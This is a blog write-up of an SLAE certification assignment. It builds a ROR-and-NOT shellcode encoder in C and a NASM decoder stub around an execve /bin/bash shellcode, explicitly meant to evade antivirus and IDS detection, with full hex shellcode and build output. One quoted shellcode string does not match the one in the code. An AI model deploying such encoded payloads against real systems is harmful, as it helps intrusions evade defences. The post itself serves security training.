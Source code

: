 ```yaml
---
layout: post
title:  "SLAE Assignment 4 - Encoding/Decoding Shellcode"
date:   2017-04-23
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 4:  
  
Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment4).  
  
**Our Goal:**  
> *Create a custom encoding scheme*
 - *POC with using the execve-stack as the shellcode*  
  
Hello everybody,  
  
Today we will create an encoded shellcode and its decoding routine.  Encoding a shellcode is useful to bypass Antivirus or Intrusion Detection Systems. Our resulting shellcode and its opcodes will have no meaning at all if the encoding scheme if robust enough (for example avoid classic XOR encoding).  
  
For each byte, our encoding scheme will consists in:  
 - Rolling four bits to the right (ROR instruction)  
 - Getting the complement of that byte (NOT)  
  
We will apply this encoding scheme on the following execve **/bin/bash** stack shellcode:  
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH ////bin/bash (12) 

	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```  
  
Testing the execve stack shellcode provides a /bin/bash prompt indeed:  
```bash
# gcc -o shellcode shellcode.c  && ./shellcode
Shellcode Length:  30
root@kali:/root/Documents/pentest/certs/slae/exam/assignment4# id
uid=0(root) gid=0(root) groups=0(root)
```  
  
Execve stack shellcode looks like:  
```bash
\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Let's now create our encoding routine ([shellcode_encode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode_encode.c)):  
```c
#include <stdio.h>
#include <string.h>

// execve stack shellcode
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// print shellcode
void print_shellcode(){

	printf("Length %d\n",sizeof(shellcode));
	for (int i=0; i<strlen(shellcode); i++) {
		printf("\\x%02x", shellcode[i]);
	}
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		printf("0x%02x,", shellcode[i]);
	}
}

void main()
{

	int	rotate = 4;	// rotate 4 bits to the right

	// print initial shellcode
	printf("Initial shellcode\n");
	print_shellcode();
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		shellcode[i] = (shellcode[i] >> rotate) | (shellcode[i] << (8-rotate));	// ror method
		shellcode[i] = ~shellcode[i]; // one's complement 
	}

	// print encoded shellcode
	printf("\nEncoded shellcode\n");
	print_shellcode();
	printf("0xaa"); // marker for the end of encoded shellcode
	printf("\n");

}
```
  
The encoded execve stack shellcode is the following:  
```bash
0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```
  
Let's create the decoding nasm shellcode [shellcode_decoder.nasm](https://github.com/phackt/slae/tree/master/assignment4/shellcode_decoder.nasm):  
```nasm
global _start			

section .text
_start:

	jmp short call_shellcode    ; jmp, call, pop technique

decoder:
	pop esi

decode: 
	xor eax, eax
	xor ebx, ebx
	mov al, byte [esi]          ; we move the byte to be decoded
	not al                      ; one's complement
	rol al, 4                   ; rolling on left to decode the rolling on right encoding
	mov byte [esi], al          ; saving the decoded byte

	lea esi, [esi + 1]          ; next byte   
	mov bl, [esi]  
	cmp bl, 0xaa                ; looking for the end of encoded shellcode
	je short EncodedShellcode   ; we jump to the decoded shellcode
	jmp short decode            ; keeping on decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```  
  
Let's assembly, link and get the decoding shellcode:  
```bash
# ./compile.sh shellcode_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./shellcode_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1a\x5e\x31\xc0\x31\xdb\x8a\x06\xf6\xd0\xc0\xc0\x04\x88\x06\x8d\x76\x01\x8a\x1e\x80\xfb\xaa\x74\x07\xeb\xe7\xe8\xe1\xff\xff\xff\xec\xf3\xfa\x79\xd9\xe9\xc8\x79\x79\xd9\x69\x19\x0d\x79\x0d\x0d\x0d\x0d\x67\xc1\xfa\x67\xd1\xca\x67\xe1\xf4\x4f\x23\xf7\xaa"
```
  
Let's update the [shellcode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode.c) file and execute our decoding shellcode:  
![image1]({{ site.url }}/public/images/slae/assignment4/image1.png)  
  
Remember that running our shellcode thanks to shellcode.c is useful because our shellcode will be located into the writable .data segment.  
If we directly execute the shellcode_decoder executable, it will result in a segmentation fault because it will try to rewrite the EncodedShellcode variable located in the non writable .text segment (also useful to use the jmp/call/pop technique in order to avoid null bytes and to dynamically get the address of our encoded shellcode).  
  
We did not test it on [VirusTotal](https://www.virustotal.com/) in order to avoid the fingerprinting of the encoding scheme.  
Hope you enjoyed this post, don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)